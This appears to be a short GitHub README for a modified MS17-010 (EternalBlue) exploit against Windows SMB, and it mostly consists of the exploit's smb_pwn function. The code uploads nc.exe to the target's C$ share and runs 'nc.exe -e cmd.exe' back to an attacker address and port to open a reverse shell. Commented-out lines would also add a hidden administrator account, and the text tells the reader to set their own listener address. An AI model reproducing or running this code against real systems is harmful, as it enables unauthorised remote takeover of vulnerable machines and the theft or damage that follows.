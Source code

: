 # MS-17-010_Reverse_Connection_nc
#### Run MS17-010 modified exploit to get reverse nc connection

Modified Code
Change LHOST and LPORT. This is your IP address and port where you are listening.
nc.exe is in same folder where your script.


def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')
	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')
	smbConn.disconnectTree(tid2)
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)


![alt text](https://giant.gfycat.com/HappygoluckyEdibleHummingbird.webm)
